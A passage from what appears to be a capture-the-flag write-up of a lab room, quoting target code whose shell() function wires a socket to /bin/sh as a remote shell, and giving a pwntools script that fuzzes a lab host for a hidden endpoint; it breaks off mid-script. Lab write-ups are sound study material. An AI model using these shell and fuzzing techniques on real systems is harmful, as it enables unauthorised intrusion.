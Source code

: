 ```
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e
```

---
## **Escalation**

The prompt for the room hints that we need to find a secret endpoint.

As the connection to the room drops if too many requests are sent, is better to just write my own simple fuzzer :

```python
from pwn import *

context.log_level = 'error'  # Suppress non-error logs

# host = "pyrat.thm"

host = "10.10.154.174"

port = 8000

endpoints_file = "./common-endpoints.txt"

def connect():
    return remote(host=host, port=port)

def attempt(endpoint):
    conn = connect()
    
    conn.sendline(endpoint.encode())
    
    resp = conn.recvline(timeout=2)
    
    if b"name '" + endpoint.encode() + b"' is not defined\n" in resp:
        conn.close()    
        print(f"{endpoint} : Nah : {resp}")
    else:
        conn.close()
        print(f"-----------------------------------------------------------")
        print(f"[+] {endpoint} : ENDPOINT VALID RAHHHHH : {resp}")
        print(f"-----------------------------------------------------------")

def fuzz():
    endpoints = open(endpoints_file, 'r')
    for endpoint in endpoints:
        endpoint = endpoint.strip()
        if endpoint.startswith('#') or not endpoint:
            continue
        else:
            attempt(endpoint)

if __name__ == "__main__" :
```